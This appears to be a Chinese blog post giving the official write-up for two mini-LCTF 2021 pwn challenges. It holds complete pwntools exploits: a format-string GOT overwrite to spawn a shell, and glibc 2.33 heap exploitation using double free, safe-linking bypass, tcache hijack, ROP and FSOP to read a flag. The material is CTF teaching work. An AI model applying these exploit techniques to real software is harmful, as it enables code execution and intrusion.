




<!--yml
category: 未分类
date: 2022-04-26 14:49:24
-->

# 【CTF题解NO.00008】mini-LCTF 2021 official write up by arttnba3_arttnba3的博客-CSDN博客

> 来源：[https://blog.csdn.net/arttnba3/article/details/116810766](https://blog.csdn.net/arttnba3/article/details/116810766)

# 0x00.绪论

很高兴能和RX大哥和协会的其他师傅一起出了这一次 minilCTF 2021 的题，虽然说只出了两道比较简单的题233333，不过还是希望大家能够喜欢（）

点开下方查看题解👇

# 0x01.Baby Repeater - fmtstr + got hijack

预期是利用格式化字符串泄露 libc 和 程序加载基地址，之后利用格式化字符串劫持 got 表，比较方便的就是改 printf 为 system，只用修改3个字节，也看到有人选择改为 one_gadget 的，基本上都在预期内

## 解题思路

漏洞点比较明显，一个可以无限使用的格式化字符串漏洞

简单测一下，格式化字符串是栈上的第八个参数



checksec一下，发现no relro，那就直接利用格式字符串漏洞泄露程序加载基地址与 libc 基址后改 printf@got 为 system 后输入 `;sh` 就可以拿到 shell 了

exp如下：

```
from pwn import *
p = process('./baby_repeater')
e = ELF('./baby_repeater')
libc = ELF('./libc-2.31.so')

p.sendline("%107$p")
p.recvuntil(b"> Your sentence: ")
main_addr = int(p.recvuntil(b'\n', drop = True), 16) - 42
elf_base = main_addr - e.sym['main']
log.success('elf base: ' + hex(elf_base))

p.sendline("%111$p")
p.recvuntil(b"> Your sentence: ")
libc_base = int(p.recvuntil(b'\n', drop = True), 16) - libc.sym['__libc_start_main'] - 243
log.success('libc base: ' + hex(libc_base))

printf_got = elf_base + e.got['printf']
sys_addr = libc_base + libc.sym['system']
sys_low = sys_addr & 0xffff
sys_high = (sys_addr >> 16)  & 0xff

payload = b'%' + str(sys_high - 15).encode() + b'c%12$hhn'
payload += b'%' + str(sys_low - sys_high).encode() + b'c%13$hn'
payload = payload.ljust(4 * 8, b'\x00')
payload += p64(printf_got + 2)
payload += p64(printf_got)

p.sendline(payload)
p.sendline(';sh')

p.interactive() 
```

# 0x02\. easytcache - Use After Free + safe-linking bypass + ORW （+ FSOP）

这道题校内没人出…只有一个校外的师傅做出来了，还非预期了…

BB：

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-Hz2IpHD9-1621009387347)(https://i.loli.net/2021/05/15/Oqpem3yrg2UJlYC.png)]

## 程序分析

使用如下指令编译，保护全开，扣光符号表

```
$ g++ easytcache.cpp -o easytcache -fstack-protector-all -z now -z noexecstack -pie -s 
```

在开头的`init_state()`函数中设置了沙箱，目的是让选手只能通过orw来获得flag

题目提供了分配、编辑、打印、释放堆块的功能，以及一个手动调用exit函数退出的功能

同时题目限制**只能分配5个chunk，只能释放3次**，超出这个限制便会抛出`A3LibException`中止程序

漏洞点在于释放堆块时没有将堆块指针置0，但是libc版本为2.31，有着tcache key，无法直接double free

题目本身有个逻辑漏洞，在 `deleteNote()` 函数中虽然会检测堆块是否已释放，但是会在检测之前使用取反的方式改变标志位，因此可以在改变标志位后使用 edit 功能清除 tcache key，之后完成doule free

## 解题思路

题目限制了只能分配5个 chunk，每一次分配都需要精打细算，为了能够达到更多次的任意地址写，所以考虑直接劫持 tcache 结构体

首先通过double free后打印泄漏出堆基址，之后就是 edit 后分配到 tcache 结构体，修改 counts 全满后**将 tcache free 进 unsorted bin 后**打印就可以泄漏出栈基址，**此时我们还剩下两次 malloc 的机会，0 次 free 的机会**，不过好在我们已经控制了 tcache 结构体，可以直接分配堆块到我们想要的地方
需要注意的是自 libc2.32 起新增了 safe-linking 机制（本题为 2.33），对于 tcache 与 fastbin 中的 chunk 的 next 指针都会与自身地址右移 12 位后的值进行异或，但是 tcache_entry 中存放的仍然为未加密指针

最常规的办法就是改 __malloc_hook 为 one_gadget 以get shell，但是这一题限制了系统调用，只能进行orw

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-fu8jXAVw-1621009387349)(https://i.loli.net/2021/04/22/EA873jmk2bIy4ca.png)]

### 解法一：__environ泄露栈地址在栈上构造ROP进行ORW

在 `__environ` 这个变量中保存着栈上地址，我们可以通过这个变量获取栈上地址，随后就可以分配一个位于栈上的 chunk ，最后就是常规的通过 ROP 进行 ORW

exp如下：

```
 from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'

p = process(['./ld-2.33.so', './easytcache'], env={'LD_PRELOAD':'./libc.so.6'})
e = ELF('./easytcache')
libc = ELF('./libc.so.6')
one_gadget = 0xe6e73

def cmd(choice:int):
    p.recvuntil(b"Your choice: ")
    p.sendline(str(choice).encode())

def new(size:int):
    cmd(1)
    p.recvuntil(b"size?")
    p.sendline(str(size).encode())

def edit(index:int, content):
    cmd(2)
    p.recvuntil(b"index?")
    p.sendline(str(index).encode())
    p.recvuntil(b"content?")
    p.send(content)

def dump(index:int):
    cmd(3)
    p.recvuntil(b"index?")
    p.sendline(str(index).encode())
    p.recvuntil(b"content: ")

def free(index:int):
    cmd(4)
    p.recvuntil(b"index?")
    p.sendline(str(index).encode())

def exp():

    new(0x100) 
    free(0)
    free(0)

    log.info("start leaking the heap base addr...")
    edit(0, b'arttnba3')
    dump(0)
    p.recvuntil(b'arttnba3')
    heap_leak = u64(p.recv(6).ljust(8, b"\x00"))
    heap_base = heap_leak - 0x10
    log.success('heap base leak: ' + str(hex(heap_base)))

    edit(0, b'arttnba3' * 2)
    free(0)
    free(0)
    edit(0, p64((heap_base + 0x10) ^ ((heap_base + 0x290 + 0x11c10 + 0x10) >> 12)))
    new(0x100) 
    new(0x100) 
    edit(2, b'\x00\x00' * 39 + b'\x07\x00') 

    log.info("start leaking the libc base addr...")
    free(2)
    free(2)
    edit(2, b'\x0a')
    dump(2)
    main_arena = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00")) - 96 - 0xa
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    log.success('libc base leak: ' + str(hex(libc_base)))
    edit(2, (b"\x01\x00").ljust(128, b'\x00') + p64(libc_base + libc.sym['__environ'] - 0x10))

    log.info("start constructing the orw rop chain...")
    flag_addr = libc_base + libc.sym['__free_hook']
    pop_rdi_ret = libc_base + libc.search(asm("pop rdi ; ret")).__next__()
    log.success(hex(pop_rdi_ret))
    pop_rsi_ret = libc_base + libc.search(asm("pop rsi ; ret")).__next__()
    pop_rdx_ret = libc_base + libc.search(asm("pop rdx ; ret")).__next__()
    pop_rdx_pop_rbx_ret = libc_base + libc.search(asm('pop rdx ; pop rbx ; ret')).__next__()
    ret = libc_base + libc.search(asm('ret')).__next__()

    orw = b''
    orw += b'arttnba3' * 3 + p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x40) + p64(0) + p64(libc_base + libc.sym['read'])
    orw += p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_ret) + p64(4) + p64(libc_base + libc.sym['open'])
    orw += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x40) + p64(0) + p64(libc_base + libc.sym['read'])
    orw += p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x40) + p64(0) + p64(libc_base + libc.sym['write'])
    log.success("construction complete")

    new(0x10) 
    edit(3, b'arttnba3' * 2)
    dump(3)
    __environ = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
    log.success('stack addr leak: ' + hex(__environ))

    log.info("start sending the orw rop chain...")

    edit(2, (b"\x00\x00" * 15 + b'\x01\x00').ljust(128, b'\x00') + p64(0) * 15 + p64(__environ - 0x168)) 
    new(0x100) 

    edit(4, orw)
    sleep(1)
    p.sendline(b'/flag\x00')

    p.recvuntil(b"Done!\n")
    log.success("flag received: ")
    print(p.recvuntil(b'}').decode())
    p.recv()
    p.interactive()

if __name__ == '__main__':
    exp() 
```

### 解法二：通过 exit() 进行FSOP构造ROP进行ORW

考虑到`exit()`函数会调用`_IO_flush_all_lockp ()`函数，那么我们便可以劫持`_IO_2_1_stderr_`进行FSOP，控制程序执行流程

由于vtable表合法性检测的存在，因此我们可以把最后一次malloc的机会用掉，以劫持vtable表

笔者测试在这里如果选择直接改`_IO_file_jumps`表中的`__overflow`会触发SIGSEGV，因此考虑劫持一个合法的vtable表位，同时将stderr的vtable表劫持为该位置，接下来就可以通过`__overflow`控制程序执行流

> 注：其实只需要vtable表位置合法即可

同时我们还需要进行一次栈迁移，故考虑通过setcontext + 61上的gadget进行SROP，那么我们最初的跳转位置可以跳到这里：



我们还需要构造`ucontext_t`结构体 ，可以使用前面的那个预留的紧挨着top chunk的chunk，使用pwntools中的`SigreturnFrame()`可以快速构造该结构体，同时stderr + 8的位置需要指向该堆块

最后的exp如下：

```
 from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'

p = process(['./ld-2.33.so', './easytcache'], env={'LD_PRELOAD':'./libc.so.6'})
e = ELF('./easytcache')
libc = ELF('./libc.so.6')
one_gadget = 0xe6e73

def cmd(choice:int):
    p.recvuntil(b"Your choice: ")
    p.sendline(str(choice).encode())

def new(size:int):
    cmd(1)
    p.recvuntil(b"size?")
    p.sendline(str(size).encode())

def edit(index:int, content):
    cmd(2)
    p.recvuntil(b"index?")
    p.sendline(str(index).encode())
    p.recvuntil(b"content?")
    p.send(content)

def dump(index:int):
    cmd(3)
    p.recvuntil(b"index?")
    p.sendline(str(index).encode())
    p.recvuntil(b"content: ")

def free(index:int):
    cmd(4)
    p.recvuntil(b"index?")
    p.sendline(str(index).encode())

def exp():

    new(0x100) 
    free(0)
    free(0)

    log.info("start leaking the heap base addr...")
    edit(0, b'arttnba3')
    dump(0)
    p.recvuntil(b'arttnba3')
    heap_leak = u64(p.recv(6).ljust(8, b"\x00"))
    heap_base = heap_leak - 0x10
    log.success('heap base leak: ' + str(hex(heap_base)))

    edit(0, b'arttnba3' * 2)
    free(0)
    free(0)
    edit(0, p64((heap_base + 0x10) ^ ((heap_base + 0x290 + 0x11c10 + 0x10) >> 12)))
    new(0x100) 
    new(0x100) 
    edit(2, b'\x00\x00' * 39 + b'\x07\x00') 

    log.info("start leaking the libc base addr...")
    free(2)
    free(2)
    edit(2, b'\x0a')
    dump(2)
    main_arena = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00")) - 96 - 0xa
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    log.success('libc base leak: ' + str(hex(libc_base)))

    log.info("start constructing the fake sigreturn frame on chunk 1...")
    fake_frame_addr = heap_base + 0x290 + 0x11c10 + 0x10
    fake_frame = SigreturnFrame()
    fake_frame['uc_stack.ss_size'] = libc_base + libc.sym['setcontext'] + 61
    fake_frame.rdi = 0
    fake_frame.rsi = libc_base + libc.sym['__free_hook']
    fake_frame.rdx = 0x200
    fake_frame.rsp = libc_base + libc.sym['__free_hook']
    fake_frame.rip = libc_base + libc.sym['read']
    edit(1, bytes(fake_frame) + b"/flag\x00")
    log.success("construction complete")

    log.info("start constructing the orw rop chain...")
    flag_addr = fake_frame_addr + len(bytes(fake_frame))
    pop_rdi_ret = libc_base + libc.search(asm("pop rdi ; ret")).__next__()
    pop_rsi_ret = libc_base + libc.search(asm("pop rsi ; ret")).__next__()
    pop_rdx_ret = libc_base + libc.search(asm("pop rdx ; ret")).__next__()
    pop_rdx_pop_rbx_ret = libc_base + libc.search(asm('pop rdx ; pop rbx ; ret')).__next__()

    orw = b''
    orw += p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_ret) + p64(4) + p64(libc_base + libc.sym['open'])
    orw += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x40) + p64(0) + p64(libc_base + libc.sym['read'])
    orw += p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x40) + p64(0) + p64(libc_base + libc.sym['write'])
    log.success("construction complete")

    log.info("start constructing the fake stderr structure...")
    fake_file = b""
    fake_file += p64(0) 
    fake_file += p64(fake_frame_addr) 
    fake_file += p64(0) 
    fake_file += p64(0) 
    fake_file += p64(0) 
    fake_file += b"arttnba3" 
    fake_file += p64(0) 
    fake_file += p64(0) 
    fake_file += p64(0) 
    fake_file += p64(0) * 4 
    fake_file += p64(libc_base + libc.sym['_IO_2_1_stdout_']) 
    fake_file += p32(2) 
    fake_file += p32(0) 
    fake_file += p64(0xFFFFFFFFFFFFFFFF) 
    fake_file += p16(0) 
    fake_file += b"\x00" 
    fake_file += b"\n" 
    fake_file += p32(0) 
    fake_file += p64(libc_base + libc.sym['_IO_2_1_stderr_'] + 0x1ef0) 
    fake_file += p64(0xFFFFFFFFFFFFFFFF) 
    fake_file += p64(0) 
    fake_file += p64(libc_base + libc.sym['_IO_2_1_stderr_'] - 0xe40) 
    fake_file += p64(0) * 3 
    fake_file += p32(0xFFFFFFFF) 
    fake_file += b"\x00" * 19 
    fake_file = fake_file.ljust(0xD8,b'\x00') 
    fake_file += p64(libc_base + 0x1e2550) 
    log.success("construction complete")

    log.info("start tcache poisoning...")
    edit(2, b"\x07\x00" * 64 + p64(0) * 15 + p64(libc_base + libc.sym['_IO_2_1_stderr_']))
    new(0x100) 
    edit(3, fake_file)
    edit(2, b"\x07\x00" * 64 + p64(0) * 15 + p64(libc_base + 0x1e2550 + 0x10))

    new(0x100) 
    edit(4, p64(libc_base + 0x14A0A0) * 2)
    log.success("tcache poisoning complete")

    log.info("start sending the orw rop chain...")

    cmd(5)
    sleep(1)
    p.sendline(orw)
    log.success("orw rop chain has been sent")
    log.info("start getting the flag...")
    p.recvuntil(b"THERE'S NO DOUBT THAT YOU ARE THINKING ABOUT PEACH!\n")
    log.success("flag received: ")
    print(p.recvuntil(b'}').decode())
    p.recv()
    p.interactive()

if __name__ == '__main__':
    exp() 
```

### 非预期：

影二つ师傅， 本场比赛中唯一的解：





笔者暂时还没复现过这个非预期，不过不得不说这确实是一个不错的思路

### 非预期二：

[House of Kiwi](https://www.anquanke.com/post/id/235598#h3-4)，由fmyy师傅提供的走FSOP解法


以上两种非预期解法都只需要使用一次任意地址写（~~懂了，明年把malloc次数减少一次~~）